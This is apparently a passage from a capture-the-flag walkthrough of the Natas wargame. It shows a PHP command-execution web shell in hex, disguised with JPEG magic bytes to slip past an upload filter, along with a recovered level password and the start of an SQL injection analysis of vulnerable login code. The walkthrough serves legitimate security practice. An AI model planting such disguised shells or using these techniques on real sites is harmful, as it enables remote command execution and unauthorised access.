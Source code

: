 Now, we need to edit the first bytes to be `FF D8 FF DB`, getting us:

```
FF D8 FF DB 3C 3F 70 68 
70 20 65 63 68 6F 20 70 
61 73 73 74 68 72 75 28 
24 5F 52 45 51 55 45 53 
54 5B 22 63 6D 64 22 5D 
29 3B 20 3F 3E
```

Let's test if our script works! We can do it using `file` on Linux

```bash
$ file script.php
script.php: JPEG image data
```

We got it! Time to upload the script repeating the same process as Level 12. Edit the HTML so the file will get uploaded as `.php` and repeat the process!

We get `����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`, removing the first 4 bytes we get the password!

# Level 14

Thirteen down! Only, 20 more to go...
Let's get to work then!

We are greeted with a login prompt and the link to its source code.

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
        echo "Successful login! The password for natas15 is <censored><br>";
    } else {
        echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

Straight up we see some SQL!

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST
```
